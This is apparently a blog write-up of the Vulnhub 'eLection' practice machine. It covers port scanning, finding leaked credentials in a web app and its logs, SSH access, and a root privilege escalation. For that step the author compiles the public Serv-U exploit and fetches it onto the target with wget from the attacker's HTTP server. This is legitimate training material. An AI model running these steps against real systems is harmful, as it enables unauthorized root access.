 ```yaml
---
title: Vulnhub - eLection
description: My writeup on eLection box.
categories:
 - vulnhub
tags: vulnhub Serv-U binary cyberchef
---
```


![](https://ichef.bbci.co.uk/images/ic/1024x576/p07snhjs.jpg)

Hi all, this was a really easy box let's pwn it!

You can find the machine there > [eLection](https://www.vulnhub.com/entry/election-1,503/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.15
$ nmap -sC -sV -p- -oN initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 00:35 EEST
Nmap scan report for election.zte.com.cn (192.168.1.15)
Host is up (0.00082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:B2:39:C7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we visit the webpage, we can see the apache2 default page. I always check first for `robots.txt` and we see these directories:

```
admin
wordpress
user
election
```

Only the `/election` is working and it runs some kind of webapp (?) :

![](https://i.imgur.com/mTGtndG.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip/election/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.txt
/media (Status: 301)
/themes (Status: 301)
/data (Status: 301)
/admin (Status: 301)
/index.php (Status: 200)
/lib (Status: 301)
/languages (Status: 301)
/js (Status: 301)
/card.php (Status: 200)
```

## Shell as love

`/card.php` has binary data in let's decode them.

![](https://i.imgur.com/AdGAcVp.png)

![](https://i.imgur.com/6yiTuyp.png)

Perfect `1234:Zxc123!@#` we can login with them under `/admin`. Under settings now we can download some logs:

![](https://i.imgur.com/MpOAHOG.png)

![](https://i.imgur.com/L6ldJLh.png)

These logs have this in:

```
$ cat system.log 
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2020-07-09 18:23:29] Love has been logged in from Unknown IP on Firefox (Linux).
[2020-07-09 18:24:28]  has been logged out from Unknown IP.
[2020-07-10 03:20:21] Love has been logged in from Unknown IP on Firefox (Linux).
```

We can use them with SSH.

```
$ ssh love@$ip
love@192.168.1.15's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * "If you've been waiting for the perfect Kubernetes dev solution for
   macOS, the wait is over. Learn how to install Microk8s on macOS."

   https://www.techrepublic.com/article/how-to-install-microk8s-on-macos/

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

74 packages can be updated.
28 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Jul  9 18:27:37 2020 from 192.168.1.16
love@election:~$ 
```

## love -> root - Exploiting Serv-U
Perfect, now privesc is pretty easy. Let's search for `SUID` binaries.

```
love@election:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
```

`Serv-U` seems interesting, let's search for possible local privilege escalation exploits.

```
$ searchsploit Serv-U | grep Privilege
RhinoSoft Serv-U FTP Server 3.x < 5.x - Local Privilege Escalation                                                                                     | windows/local/381.c
Serv-U FTP Server - prepareinstallation Privilege Escalation (Metasploit)                                                                              | linux/local/47072.rb
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)                                                                                            | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)                                                                                            | multiple/local/47173.sh
```

`linux/local/47009.c` Seems perfect, let's mirror it and compile it.

```
$ searchsploit -m linux/local/47009.c
  Exploit: Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/47009
     Path: /usr/share/exploitdb/exploits/linux/local/47009.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/Documents/vulnhub/election/47009.c

$ election gcc 47009.c -o root
$ election python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's wget it now and run it.

```
love@election:~$ cd /tmp
love@election:/tmp$ wget -q 192.168.1.16/root
love@election:/tmp$ chmod +x root; ./root
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
```

Bingo! :D Let's read the flags:

```
# cat /root/root.txt
5238feefc4ffe09645d97e9ee49bc3a6
# cat /home/love/Desktop/user.txt
cd38ac698c0d793a5236d01003f692b0
```

Was fun.
